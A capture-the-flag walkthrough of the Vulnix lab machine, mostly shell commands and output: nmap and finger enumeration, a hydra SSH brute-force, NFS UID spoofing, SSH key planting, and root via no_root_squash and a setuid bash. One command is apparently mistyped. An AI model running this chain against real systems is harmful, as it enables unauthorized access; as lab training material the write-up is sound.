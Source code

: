 # VULNIX


### NMAP

kali@kali:~$ nmap 192.168.1.100 -sV -sT -A
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-10 13:44 CET
Nmap scan report for vulnix.home (192.168.1.100)
Host is up (0.00055s latency).
Not shown: 988 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 10:cd:9e:a0:e4:e0:30:24:3e:bd:67:5f:75:4a:33:bf (DSA)
|   2048 bc:f9:24:07:2f:cb:76:80:0d:27:a6:48:52:0a:24:3a (RSA)
|_  256 4d:bb:4a:c1:18:e8:da:d1:82:6f:58:52:9c:ee:34:5f (ECDSA)
25/tcp   open  smtp       Postfix smtpd
|_smtp-commands: vulnix, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
| ssl-cert: Subject: commonName=vulnix
| Not valid before: 2012-09-02T17:40:12
|_Not valid after:  2022-08-31T17:40:12
|_ssl-date: 2018-03-10T12:45:36+00:00; +1s from scanner time.
79/tcp   open  finger     Linux fingerd
|_finger: No one logged on.\x0D
110/tcp  open  pop3       Dovecot pop3d
|_pop3-capabilities: PIPELINING CAPA UIDL SASL STLS TOP RESP-CODES
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2018-03-10T12:45:36+00:00; 0s from scanner time.
111/tcp  open  rpcbind    2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3          111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  2,3,4       2049/tcp  nfs
|   100003  2,3,4       2049/udp  nfs
|   100005  1,2,3      53683/udp  mountd
|   100005  1,2,3      59616/tcp  mountd
|   100021  1,3,4      36103/udp  nlockmgr
|   100021  1,3,4      45994/tcp  nlockmgr
|   100024  1          36141/udp  status
|   100024  1          53348/tcp  status
|   100227  2,3         2049/tcp  nfs_acl
|_  100227  2,3         2049/udp  nfs_acl
143/tcp  open  imap       Dovecot imapd
|_imap-capabilities: OK LOGINDISABLEDA0001 ENABLE IDLE SASL-IR LOGIN-REFERRALS post-login have Pre-login more IMAP4rev1 capabilities STARTTLS LITERAL+ listed ID
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2018-03-10T12:45:36+00:00; +1s from scanner time.
512/tcp  open  exec?
513/tcp  open  login      OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
993/tcp  open  ssl/imap   Dovecot imapd
|_imap-capabilities: OK ENABLE IDLE SASL-IR LOGIN-REFERRALS post-login have Pre-login more IMAP4rev1 capabilities listed LITERAL+ AUTH=PLAINA0001 ID
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2018-03-10T12:45:35+00:00; 0s from scanner time.
995/tcp  open  ssl/pop3   Dovecot pop3d
|_pop3-capabilities: PIPELINING CAPA UIDL SASL(PLAIN) USER TOP RESP-CODES
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2018-03-10T12:45:35+00:00; 0s from scanner time.
2049/tcp open  nfs_acl    2-3 (RPC #100227)
Service Info: Host:  vulnix; OS: Linux; CPE: cpe:/o:linux:linux_kernel


### FINGER

kali@kali:~$ finger root@192.168.1.100
Login: root           			Name: root
Directory: /root                    	Shell: /bin/bash
Never logged in.
No mail.
No Plan.

kali@kali:~$ finger vulnix@192.168.1.100
Login: vulnix         			Name: 
Directory: /home/vulnix             	Shell: /bin/bash
Never logged in.
No mail.
No Plan.

root@kali:/home# finger user@192.168.1.100
Login: user           			Name: user
Directory: /home/user               	Shell: /bin/bash
Never logged in.
No mail.
No Plan.

Login: dovenull       			Name: Dovecot login user
Directory: /nonexistent             	Shell: /bin/false
Never logged in.
No mail.
No Plan.


### NFS

root@kali:/home/kali# showmount -e 192.168.1.100
Export list for 192.168.1.100:
/home/vulnix *

root@kali:/home/kali# mount --source 192.168.1.100:/home/vulnix --target /home/vulnix

Permission denied T.T'


### BRUTEFORCE

kali@kali:~$ hydra -l user -P rockyou.txt 192.168.1.100 ssh -t 4
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting at 2018-03-10 15:38:39
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://192.168.1.100:22/
[STATUS] 64.00 tries/min, 64 tries in 00:01h, 14344335 to do in 3735:31h, 4 active
[STATUS] 60.67 tries/min, 182 tries in 00:03h, 14344217 to do in 3940:44h, 4 active
[STATUS] 60.57 tries/min, 424 tries in 00:07h, 14343975 to do in 3946:51h, 4 active
[22][ssh] host: 192.168.1.100   login: user   password: letmein
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-03-10 15:47:27

kali@kali:~$ root -l user 192.168.1.100
user@vulnix:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),100(users)

user@vulnix:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
vulnix:x:2008:2008::/home/vulnix:/bin/bash


### ACCESS TO NFS

root@kali:/home/kali# groupadd vulnix -g 2008
root@kali:/home/kali# useradd vulnix -u 2008 -g 2008 -s /bin/bash
root@kali:/home/kali# mkdir /home/vulnix
root@kali:/home/kali# mount --source 192.168.1.100:/home/vulnix --target /home/vulnix
root@kali:/home/kali# su vulnix
vulnix@kali:/home/kali$ cd /home/vulnix
vulnix@kali:~$ ll
total 20
drwxr-x--- 2 vulnix vulnix 4096 Sep  2  2012 ./
drwxr-xr-x 4 root   root   4096 Mar 10 16:04 ../
-rw-r--r-- 1 vulnix vulnix  220 Apr  3  2012 .bash_logout
-rw-r--r-- 1 vulnix vulnix 3486 Apr  3  2012 .bashrc
-rw-r--r-- 1 vulnix vulnix  675 Apr  3  2012 .profile


### GETTING SSH WITH VULNIX

kali@kali:~$ ssh-keygen -t rsa
kali@kali:~$ cat .ssh/id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDT1Mw6+iVZcmCHOe9IBW7S5He5ZeBwTFNhNlNqZQ90S2GLlenYEJElGxS2LiZcjtaTi4DkeYSZlUOI+fXKb+iLLFXyHdkh53gqSwF/sD0rV8N+6HQB93XtwWf69SUm80Dw9rYTOkDhPzHhQFsUIXyErZeiX0vdcDsXEKUV+toYOmmUa/avVbz/Y9CjMTAAFxEDSzprbLAIORJ6ZjIeVn5J4xHo1+xuD3O0tQ/Jw7fhc7zTn3NGtd0JjDuRiz9T6X+eYLL6+rwMXnQXKxhGNbuBIObNHR/iNL1YZdSxH6W8gSFiHIGr42hSUV1dxEySDz8bNCZFI2etWyqbpTmfJGCP kali@kali

kali@kali:~$ su vulnix
vulnix@kali:~/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDT1Mw6+iVZcmCHOe9IBW7S5He5ZeBwTFNhNlNqZQ90S2GLlenYEJElGxS2LiZcjtaTi4DkeYSZlUOI+fXKb+iLLFXyHdkh53gqSwF/sD0rV8N+6HQB93XtwWf69SUm80Dw9rYTOkDhPzHhQFsUIXyErZeiX0vdcDsXEKUV+toYOmmUa/avVbz/Y9CjMTAAFxEDSzprbLAIORJ6ZjIeVn5J4xHo1+xuD3O0tQ/Jw7fhc7zTn3NGtd0JjDuRiz9T6X+eYLL6+rwMXnQXKxhGNbuBIObNHR/iNL1YZdSxH6W8gSFiHIGr42hSUV1dxEySDz8bNCZFI2etWyqbpTmfJGCP kali@kali" >> authorized_keys

kali@kali:~$ ssh -l vulnix 192.168.1.100


### PRIVILEGE ELEVATION

vulnix@vulnix:~$ sudo -l
Matching 'Defaults' entries for vulnix on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User vulnix may run the following commands on this host:
    (root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports

vulnix@vulnix:~$ sudoedit /etc/exports
/home/vulnix    *(rw,root_squash)
/root   *(rw,no_root_squash) <- ADDED

Reboot!

root@kali:/home/kali# showmount -e 192.168.1.100
Export list for 192.168.1.100:
/root        *
/home/vulnix *

root@kali:/mnt# mount 192.168.1.100:/root /mnt/root
root@kali:/mnt# cd /mnt/root
root@kali:/mnt/root# ls -lrth
total 4.0K
-r-------- 1 root root 33 Sep  2  2012 trophy.txt
root@kali:/mnt/root# cat trophy.txt 
cc614640424f5bd60ce5d5264899c3be


### GETTING ROOT SHELL

vulnix@vulnix:~$ sudoedit /etc/exports
/home/vulnix    *(rw,no_root_squash) <- MODIFIED
/root   *(rw,no_root_squash)

Reboot!

vulnix@vulnix:~$ cp /bin/bash /home/vulnix

root@kali:/mnt/vulnix# chmod 4777 bash 
root@kali:/mnt/vulnix# ls -lrth
total 900K
-rwsrwxrwx 1 root root 900K Mar 10 16:47 bash

vulnix@vulnix:~$ ./bash -p
bash-4.2# id
uid=2008(vulnix) gid=2008(vulnix) euid=0(root) groups=0(root),2008(vulnix)

